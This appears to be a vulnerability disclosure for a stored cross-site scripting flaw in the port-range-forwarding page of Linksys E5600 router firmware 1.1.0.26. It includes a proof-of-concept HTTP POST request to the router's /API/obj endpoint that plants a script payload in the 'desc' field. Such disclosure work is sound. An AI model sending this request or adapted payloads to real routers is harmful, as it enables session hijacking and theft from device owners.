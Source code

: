 

# TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
The dynamic string concatenation (prf_table_content = prf_table_content + ...) lacks proper escaping and filtering, especially for user-controlled fields like element.desc. This field is directly embedded into the HTML without sanitization, allowing attackers to inject malicious scripts, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/Linksys/E5600-1/Snipaste_2025-01-07_19-39-11.png)
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) used in the construction of the HTML table lacks proper escaping and filtering, specifically in the handling of user-controlled data such as the `element.desc` field. The `element.desc` field is directly embedded into the HTML output without sanitization, making it possible for attackers to inject malicious JavaScript or HTML content.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![image](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/Linksys/E5600-1/2025-01-07%20194217.png)
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/Linksys/E5600-1/Snipaste_2025-01-07_19-49-00.png)


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```
